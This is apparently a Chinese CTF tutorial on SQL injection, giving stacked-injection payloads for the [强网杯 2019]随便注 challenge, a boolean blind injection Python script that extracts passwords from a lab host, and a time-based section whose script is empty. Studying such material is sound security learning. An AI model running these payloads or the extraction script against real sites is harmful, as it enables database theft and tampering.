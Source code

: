 # 堆注入
例：[强网杯 2019]随便注
方法一：
```py
通过预处理函数，进行读取数据
MySQL 官方将 prepare、execute、deallocate 统称为 PREPARE STATEMENT。翻译也就习惯的称其为预处理语句。
MySQL 预处理语句的支持版本较早，所以我们目前普遍使用的 MySQL 版本都是支持这一语法的。
payload:2';Set @b=concat("sele","ct ","* from `1919810931114514`");prepare dump from @b;execute dump;#
```
方法二：
```py
1.将words表改名为word1或其它任意名字 :    rename table words to new_word;
2.1919810931114514改名为words  :  rename table 1919810931114514 to new_19198;
3.将新的word表插入一列，列名为id : alter table new_19198 add id int unsigned not Null auto_increment primary key;
4.将flag列改名为data : alert table new_19198 change flag data varchar(100);
payload:1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
然后查询1'or 1=1#
```
方法三：
```py
利用handler
1';handler `1919810931114514` open;handler `1919810931114514` read first;#
```
# 布尔盲注
![在这里插入图片描述](img/20210530181104226.png)


对了只会正常显示，错了会显示错的页面。
所以就构成了布尔盲注，注入的(对或者错)
```py
url = 'http://0d8c0a68-b3a4-431f-84f6-cc398fbe1ab5.node3.buuoj.cn/search.php?'
flag = ''
for i in range(172,250):
    low = 32
    high = 128
    mid = (low+high)//2
    while(low<high):
        #payload = 'http://d63d924a-88e3-4036-b463-9fc6a00f4fef.node3.buuoj.cn/search.php?id=1^(ascii(substr(database(),%d,1))=%d)#' %(i,mid)
        payload = "http://0d8c0a68-b3a4-431f-84f6-cc398fbe1ab5.node3.buuoj.cn/search.php?id=1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" %(i,mid)
        res = requests.get(url=payload)

        if 'ERROR' in res.text:
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid ==32 or mid ==127):
        break
    flag = flag+chr(mid)
    print(flag)
```
# 延时注入
界面返回值只有一种,true 无论输入任何值 返回情况都会按正常的来处理。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。
利用函数sleep来进行注入
附上一个延时注入的脚本
```py
```